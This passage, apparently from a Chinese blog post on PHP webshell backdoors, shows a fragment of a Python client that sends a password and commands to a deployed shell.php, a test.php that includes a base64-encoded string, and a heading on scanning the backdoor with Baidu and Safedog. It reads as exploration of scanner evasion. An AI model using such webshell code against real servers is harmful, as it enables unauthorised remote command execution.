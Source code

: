 ```php
            response = send_raw(url,password,code);
            print(response)
        else:
            response = send_php_shell(url,password,cmd);
            print(response)
```
 
我们把我们的 shell.php 部署到服务器上，执行测试 shell.py ：
 
![][1]
 
其中，test.php 的内容为：
 
```php
<?php
    include 'PD9waHAgZWNobyAiaGVsbG8gc2hlbGxcclxuIjs';
    echo 'hello, shell world';
```
 
## 0×03 后门查杀
 
百度在线扫描
 
![][2]
 
安全狗本地扫描
 
![][3]
 


[0]: ./img/JjuaI3b.jpg 
[1]: ./img/uMJZB3f.jpg 
[2]: ./img/Yz2QjqB.jpg 
[3]: ./img/vEfyMjj.jpg 